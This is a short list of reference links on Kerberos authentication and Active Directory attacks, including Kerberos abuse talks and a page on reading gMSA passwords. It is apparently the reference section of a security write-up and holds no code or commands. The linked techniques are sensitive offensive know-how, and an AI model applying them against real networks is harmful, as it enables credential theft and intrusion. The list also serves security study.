- [Kerberos Authentication Explained](https://www.varonis.com/blog/kerberos-authentication-explained)
- [Abusing Kerberos](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
- [Kerberos & Attacks 101](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
- [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)
